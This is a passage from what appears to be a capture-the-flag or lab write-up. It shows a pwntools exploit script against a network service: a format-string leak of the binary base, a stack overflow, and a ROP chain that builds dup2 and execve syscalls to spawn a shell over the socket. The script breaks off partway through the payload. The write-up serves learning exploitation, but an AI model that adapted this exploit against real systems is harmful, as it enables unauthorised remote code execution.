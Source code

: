 We can fix this problem by duplicating the file descriptor for our socket (4) with the file descriptors for standard input (0) and output (1) using the `dup2(4, 0)` and `dup2(4, 1)` system calls.

We will do this in a similar manner to how we made the `execve` system call, with the only difference being how we set the value for the `rdi` register. The `pop rdi ; xor rdi, rbp ; ret` gadget is adequate for this, as it allows us to control the value of `rdi` and since we know the value of `rbp` is `/bin/sh\0`, by simply setting `rdi` to `+bin/sh\0` with the `pop rdi` gadget, we can make the next `xor rdi, rbp` instruction set it to `4` because `/bin/sh\0 ^ +bin/sh\0 = 4`.

Here is our final script with the `dup2` system calls:

```py
#!/usr/bin/env python3

from pwn import *

context.update(os="linux", arch="amd64", log_level="error")

remote_addr = "10.10.62.203"

# Connect to the target service and leak the binary base address
r1 = remote(remote_addr, 5555)
payload = b"DEBUG %136$p \n"
r1.sendline(payload)
resp = r1.recv().strip()
resp = int(resp, 16)
binary_base = resp - 0x1780
r1.close()

# Gadget List (Offsets to useful instructions for ROP chain)
# 0x000000000000180b : pop rax ; ret
# 0x0000000000001816 : pop rdi ; xor rdi, rbp ; ret
# 0x0000000000001811 : pop rsi ; ret
# 0x000000000000180d : pop rdx ; pop r12 ; ret
# 0x0000000000001807 : push rbp ; mov rbp, rsp ; pop rax ; ret
# 0x0000000000001813 : syscall

# Calculate gadget addresses based on the leaked binary base
pop_rax = binary_base + 0x180b
pop_rdi_xor_rdi_rbp = binary_base + 0x1816
pop_rsi = binary_base + 0x1811
pop_rdx_pop_r12 = binary_base + 0x180d
push_rbp_mov_rbp_rsp_pop_rax = binary_base + 0x1807
syscall = binary_base + 0x1813
execve = 59
dup2 = 33 

# Build the start of the payload
payload = b"POST "
payload += b"A" * 16       # Offset to the rbp
payload += b"/bin/sh\x00"  # Overwrite rbp with /bin/sh string

# dup2(4, 0) - Redirect file descriptor 4 to stdin (fd 0)
payload += p64(pop_rdi_xor_rdi_rbp) # Set rdi as 4
payload += b"+bin/sh\x00"
payload += p64(pop_rax)             # Set rax to 33 (dup2 syscall number)
payload += p64(dup2)
payload += p64(pop_rsi)             # Set rsi to 0 (stdin)
payload += p64(0)
payload += p64(syscall)             # Trigger the syscall

# dup2(4, 1) - Redirect file descriptor 4 to stdout (fd 1)
payload += p64(pop_rdi_xor_rdi_rbp) # Set rdi as 4
payload += b"+bin/sh\x00"  
payload += p64(pop_rax)             # Set rax to 33 (dup2 syscall number)
```
